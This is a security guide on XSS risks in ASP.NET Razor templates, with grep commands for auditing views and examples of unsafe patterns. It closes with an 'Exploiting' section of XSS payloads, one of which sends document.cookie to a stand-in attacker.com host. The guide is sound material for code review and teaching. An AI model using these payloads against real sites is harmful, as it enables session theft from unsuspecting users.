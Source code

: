 # .NET_Razor

🔥 Common XSS causes in .NET (Razor) 🔥

A common way to return dynamic content to the web application user is by using HTML templates. Most applications built with ASP.NET model-view-controller (MVC) framework rely on such functionality heavily because .NET offers a convenient templating engine called Razor. However, there are caveats to using some of its functions, and if the developer doesn’t know them, it is very easy to introduce an XSS or an HTML injection! 

In this post we list common ways of misusing such functionality in C#, and explain how to look for them. In HTML templates, special tags are used as placeholders to describe how the page should look. When a template is rendered, tags are replaced with the real data. Before returning the page to the user, the templating engine substitutes placeholders with real data, and escapes it so as not to break the markup. However, sometimes it is tempting to disable automatic escaping because the text returned from the database may contain HTML that the developers want to preserve. Naturally, if user-controlled data is not escaped, this leads to numerous vulnerabilities.

To find such misconfigurations:

1. Look for the @Html.Raw function usages within the Views folder:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "\\@𝙷𝚝𝚖𝚕\\.𝚁𝚊𝚠\\("
```
2. Look for the HtmlString function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝙷𝚝𝚖𝚕𝚂𝚝𝚛𝚒𝚗𝚐\("
```
3. Look for the document.write JS function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚍𝚘𝚌𝚞𝚖𝚎𝚗𝚝\.𝚠𝚛𝚒𝚝𝚎\("
```
4. Look for the API endpoints which return the "text/html" and "image/svg+xml" content-types, they can be declared as vulnerable because there is a context for a XSS: 
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚝𝚎𝚡𝚝/𝚑𝚝𝚖𝚕|𝚒𝚖𝚊𝚐𝚎/𝚜𝚟𝚐+𝚡𝚖𝚕"
```
5. Check all HTML tag attributes without quotes around template attribute values. This tip will work even when HTML escaping is on! 
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=@𝚄𝚜𝚎𝚛𝙸𝚗𝚙𝚞𝚝>
```
Here Razor will HTML-encode quotes and angular brackets ('"<>), but not spaces! Since HTML is liberal about (not) using quotes in tags, in this example an attacker can easily add new attributes separated by spaces, and sometimes it is just enough for exploitation (e.g. <𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>). 

6. Look for user-controlled data that is directly concatenated into script tags, event attributes, or dynamic URLs in anchor tags, without proper escaping or validation.

```
<script>
    var searchQuery = "@Model.SearchQuery";
    // ...
</script>
<a href="/search?q=@Model.SearchQuery">Search for "@Model.SearchQuery"</a>
```

7. Check for dynamic content that is being rendered without proper encoding, such as user-controlled data in attributes or the text of the HTML element itself.

```
<div>@Model.UserInput</div>
<input type="text" value="@Model.UserInput">
```

8. Look for places where user-controlled data is being used to build dynamic JavaScript code, particularly when it is being used to build an object literal.
```
<script>
    var obj = {
        name: "@Model.UserName",
        age: @Model.UserAge
    };
    // ...
</script>
```

9. Check for places where user-controlled data is being used to build dynamic CSS code, particularly when it is being used to build a style attribute.
```
<div style="background-color: @Model.BackgroundColor;"></div>
```

10. Look for places where user-controlled data is being used to build dynamic HTML comments.
```
<!-- User's comment: @Model.UserComment -->
```

# Exploiting

- Query to exploit @Html.Raw vulnerability, if the code includes the following line:
Code example: @Html.Raw(Model.Name)
```
<script>alert('XSS attack');</script>
```
- Query to exploit HtmlString vulnerability:
Code example: @HtmlString("<img src='" + image + "'>")
```
<img src="javascript:alert('XSS attack')">
```
- Query to exploit document.write vulnerability:
Code example: <script>document.write("<p>" + userContent + "</p>");</script>
```
<script>document.write("<img src='http://attacker.com/steal-cookie.php?cookie=" + document.cookie + "'>");</script>
```
- Query to exploit "text/html" and "image/svg+xml" content-type vulnerabilities:
If the code includes an API endpoint that returns an SVG image and/or other content in that format, you can inject the code above as SVG image content and/or other content to attack.
```
<svg onload=alert('XSS attack')>
```
- Query to exploit attribute value without quotes vulnerability:
<img src=@image>
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>
```
